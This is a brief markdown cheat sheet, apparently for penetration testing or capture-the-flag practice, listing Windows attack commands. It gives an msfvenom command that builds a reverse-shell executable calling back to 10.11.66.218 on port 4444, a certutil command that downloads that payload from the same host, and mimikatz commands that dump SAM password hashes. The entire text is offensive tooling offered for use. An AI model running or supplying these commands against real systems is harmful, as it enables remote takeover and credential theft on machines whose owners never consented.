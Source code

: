# Windows Cheat Sheet

- [Windows Cheat Sheet](#windows-cheat-sheet)
  - [Generate a revshell](#generate-a-revshell)
  - [Upload a file](#upload-a-file)
  - [MIMIKATZ](#mimikatz)
    - [Commands](#commands)

## Generate a revshell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.66.218 LPORT=4444 -f exe > evil.exe
```

## Upload a file
```bash
certutil.exe -urlcache -split -f http://10.11.66.218:9999/evil.exe C:\\Temp\\evil.exe
```

## MIMIKATZ
Upload `mimikatz`

### Commands
```
privilege::debug
lsadump::sam
```